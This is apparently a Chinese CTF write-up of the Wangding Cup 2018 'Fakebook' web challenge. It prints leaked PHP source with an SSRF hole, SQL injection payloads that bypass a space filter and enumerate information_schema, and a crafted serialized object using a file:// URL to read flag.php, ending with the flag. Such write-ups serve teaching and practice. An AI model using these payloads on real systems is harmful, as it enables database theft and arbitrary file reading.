





## 网鼎杯 2018 Fakebook

通过 robots.txt 看到信息泄露 `/user.php.bak`

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

存在一个 SSRF，但是正则限定了只能 http/https 的请求，所以这里的 SSRF 利用起来很有限。按照题目要求正常 join 一个 blog，点进去看。




测试用 SQL 注入 payload

```payload
?no=2 or 1=1
```

尝试联合查询，被 ban 了。后来发现只是过滤了空格。order by 判断为 4；这里尝试直接 `load_file` 读

```payload
?no=-1 union/**/select/**/1,load_file('/var/www/html/flag.php'),2,3 --+
```



```payload
?no=1 order by 4

?no=-1 union/**/select/**/1,2,3,4

?no=-1 union/**/select/**/1,group_concat(schema_name),3,4/**/from/**/information_schema.schemata

?no=-1 union/**/select/**/1,group_concat(table_name),3,4/**/from/**/information_schema.tables/**/where/**/table_schema='fakebook'

?no=-1 union/**/select/**/1,group_concat(column_name),3,4/**/from/**/information_schema.columns/**/where/**/table_name='users'

?no=-1 union/**/select/**/1,group_concat(no,'~',username,'~',passwd,'~',data),3,4/**/from/**/fakebook.users

```



如此下来是得到了一串序列化的字符，回到前面 SSRF 的思路，如果 blog 内容可控，则可以任意文件读取。还有一种思路是 SQL 注入写入 shell。


根据之前的注入可知，有回显的是第二位，也就是`username`字段，`data`对应第四个字段。这里不难发现，有个报错是 `Notice: unserialize(): Error at offset 0 of 1 bytes in /var/www/html/view.php on line 31`

如此一来我们可以尝试一下是否可以直接在 data 处传参为反序列化的一串字符，观察结果

```php
<?php
class UserInfo
{
    public $name = "Drunkbaby";
    public $age = 7;
    public $blog = "file:///var/www/html/flag.php";

}
$res = new UserInfo();
echo serialize($res);

```

传参

```payload
O:8:"UserInfo":3:{s:4:"name";s:9:"Drunkbaby";s:3:"age";i:7;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```





结果

```php
<?php
$flag = "flag{74bfb2e9-413c-4cf7-bf36-d5d9d76d1257}";
exit(0);
```


